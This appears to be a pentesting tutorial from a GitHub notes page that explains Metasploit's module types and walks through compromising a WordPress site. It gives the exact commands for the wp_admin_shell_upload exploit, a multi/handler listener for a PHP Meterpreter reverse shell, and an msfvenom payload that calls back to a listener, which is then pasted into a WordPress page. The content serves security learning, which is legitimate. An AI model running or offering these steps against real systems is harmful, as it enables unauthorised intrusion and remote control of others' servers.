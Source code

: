 # Metasploit Framework Explained

Metasploit is a very famous tool to use exploits.

## Some explanation of the modules

In professional pentesting we won't be creating our own exploits. That is very rare.
The industry uses that framework because each exploit available has been tested and known to be sure.
It could be risky to use any public code.

To access the modules we go to this path in kali

```bash
cd /usr/share/metasploit-framework/modules
```

`auxiliary encoders evasion exploits nops payloads post`

What we take advantage of, the breach, is called an exploit.
We use an `exploit` to run a `payload`.

Auxiliaries are the most important part after the `payload`.
The `auxiliary` will be triggered once we are inside the server.

`Post` are tools that we use after the `payload`, like a keylogger.
`Encoders` help to hide your malicious code.

The `payloads` come in two versions: `singles` and `stagers`.
When sending your `payload`, will you send it in one or multiple shots ?

Sometimes `stagers` won't work, the access could die within a second.
This means that you have to send it in one shot (`singles` )

## Using metasploit

To start metasploit, we have to write this keyword.

```bash
msfconsole
```

This launches the metasploit console.
There are authenticated and non-authenticated exploits.

## Wordpress exploits

```bash
search type:exploit wordpress
```

That gives us a list of wordpress exploits.
Each on got an id number, a name, a disclosure date, a rank and a description.
If the check column has a Yes, it means that you can check if the website is vulnerable to this exploit.

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

By writing `info` that gives you more information.
That says that there are a few information that are required, such as the username, password and host.

```bash
SET USERNAME username
SET PASSWORD password
SET RHOSTS url
```

Once it is set with the info, we run it.

```bash
exploit
```

That sends it to the stages and the meterpreter opens itself. This is the type of payload.
Meterpreter is a very powerful tool.

```bash
help
```

This is a wordpress website running on php. Php meterpreter is the weakest.

## Multi handler

```bash
use multi/handler
```

This is the part of the framework that listens to a connexion.

```bash
set payload php/meterpreter/reverse_tcp
show options
```

In this payload there are two options.
LHOST and LPORT.

```bash
set LPORT 123
set LHOST 0.0.0.0
run
```

We are now listening on port 123.
The 123 port is the one we use to get publicly available time servers. It usually stays opened.
We always set LHOST to be 0.0.0.0, this is a wildcard. Everything will get accepted.

Now let's create a payload with msfvenom.
On another terminal tab:

```bash
msfvenom -p php/meterpreter/reverse_tcp LPORT=123 LHOST=10.0.100.9 -f raw
```

To launch the code we get from this command line, we'll paste it into a wordpress page and visit it.